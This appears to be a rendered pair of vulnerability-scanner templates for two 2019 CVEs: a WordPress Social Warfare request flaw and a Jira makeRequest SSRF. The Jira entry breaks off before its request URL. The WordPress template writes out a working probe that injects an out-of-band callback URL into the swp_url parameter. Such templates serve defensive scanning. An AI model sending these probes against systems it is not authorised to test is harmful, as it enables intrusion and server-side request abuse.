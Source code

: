 # WordPress Social Warfare \<3.5.3 - Cross-Site Scripting

## Description

- WordPress Social Warfare plugin before 3.5.3 contains a cross-site scripting vulnerability via the wp-admin/admin-post.php?swp_debug=load_options swp_url parameter, affecting Social Warfare and Social Warfare Pro.
- severity - medium
- tags - cve,cve2019,wordpress,wp-plugin,ssrf,kev

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://{{interactsh-url}}

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# JIRA SSRF in the /plugins/servlet/gadgets/makeRequest resource

## Description

- The /plugins/servlet/gadgets/makeRequest resource in Jira before version 8.4.0 allows remote attackers to access the content of internal network resources via a Server Side Request Forgery (SSRF) vulnerability due to a logic bug in the JiraWhitelist class.
- severity - medium
- tags - atlassian,jira,ssrf,oast,tenable,hackerone,cve,cve2019

## Requests

- Method - POST
- Method - POST

### URL
